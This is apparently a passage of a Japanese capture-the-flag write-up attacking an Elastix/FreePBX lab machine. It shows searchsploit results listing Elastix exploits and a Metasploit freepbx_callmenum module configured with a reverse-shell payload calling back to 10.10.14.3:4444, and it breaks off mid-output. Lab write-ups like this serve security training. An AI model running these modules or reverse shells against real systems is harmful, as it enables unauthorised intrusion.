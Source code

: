 searchsploit

```
kali@kali:~$ searchsploit elastix
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                        |  Path
                                                                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                                 | exploits/php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                               | exploits/php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                         | exploits/php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                      | exploits/php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                     | exploits/php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                    | exploits/php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                | exploits/php/webapps/18650.py
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

#metasploit 使ってみる
手っ取り早く metasploit で出てきた exploit を使ってみます。

```

msf5 exploit(unix/http/freepbx_callmenum) > options

Module options (exploit/unix/http/freepbx_callmenum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   EXTENSION  0-100            yes       A range of Local extension numbers
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.7       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
```